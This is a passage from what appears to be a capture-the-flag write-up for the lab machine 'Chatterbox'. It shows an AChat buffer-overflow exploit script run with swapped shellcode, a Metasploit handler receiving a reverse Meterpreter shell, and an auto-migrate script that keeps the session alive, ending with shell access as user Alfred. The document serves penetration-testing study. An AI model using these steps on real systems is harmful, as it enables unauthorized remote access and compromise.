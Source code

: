 Then replace the shellcode in the script with our own.

Now, start up `exploit/multi/handler` in `metasploit`, and run the script:

```

root@kali# python achat-shell-8081.py
---->{P00F}!

```

```

[*] Started reverse TCP handler on 10.10.14.157:4433
[*] Sending stage (179779 bytes) to 10.10.10.74
[*] Meterpreter session 1 opened (10.10.14.157:4433 -> 10.10.10.74:49159) at 2018-03-10 13:39:32 -0500

meterpreter > w
[*] 10.10.10.74 - Meterpreter session 1 closed.  Reason: Died

```

Unfortunately, this getting dropped consistently happens each time.

#### script + meterpreter + auto-migrate script

To get around the immediate session death, I employed a `AutoRunScript` to migrate out of the achat process as soon as the connection is established.

First, create an `.rc` file:

```

root@kali# cat automigrate.rc
run post/windows/manage/migrate

```

Then set it to run on connection:

```

msf exploit(multi/handler) > set AutoRunScript multi_console_command -r /root/automigrate.rc

```

Now, on running the script, we can get an interactive session:

```

msf exploit(multi/handler) > set AutoRunScript multi_console_command -r /root/automigrate.rc
[*] Started reverse TCP handler on 10.10.14.157:4433
[*] Sending stage (179779 bytes) to 10.10.10.74
[*] Meterpreter session 11 opened (10.10.14.157:4433 -> 10.10.10.74:49175) at 2018-03-10 14:10:41 -0500
[*] Session ID 11 (10.10.14.157:4433 -> 10.10.10.74:49175) processing AutoRunScript 'multi_console_command -r /root/automigrate.rc'
[*] Running Command List ...
[*]     Running command run post/windows/manage/migrate
[*] Running module against CHATTERBOX
[*] Current server process: AChat.exe (1104)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 584
[+] Successfully migrated to process 584

meterpreter > getuid
Server username: CHATTERBOX\Alfred
meterpreter > pwd
C:\Users\Alfred\Music
```